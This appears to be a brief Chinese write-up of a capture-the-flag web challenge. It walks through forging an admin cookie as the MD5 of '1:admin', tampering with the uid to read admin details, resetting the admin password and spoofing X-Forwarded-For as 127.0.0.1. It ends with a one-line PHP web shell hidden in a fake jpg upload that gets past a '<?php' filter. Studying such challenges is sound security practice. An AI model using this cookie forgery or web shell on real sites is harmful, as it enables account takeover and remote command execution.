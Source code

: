 先创建一个账号

然后登进去发现在cookie：a1ca81cc20da244323498b26f4a5051a（感觉一般都是md5加密）

这里是5:cyny666

伪造一个1:admin的md5:4b9987ccafacb8d8fc08d22bbca797ba

personal那里查看个人信息的时候修改数据包uid和cookie

获取基本信息

| Birthday | 1993/01/01         |
| -------- | ------------------ |
| Address  | 福建省福州市闽侯县 |

然后可以在找密码的时候输入信息修改admin的密码

在manage模块发送包的时候加入X-Forwarded-For:127.0.0.1

然后看页面码有<!-- index.php?module=filemanage&do=???-->

然后上传文件构造一个jpg文件即可 注意绕过<?php

<script language="php">system($_GET[a]);</script>
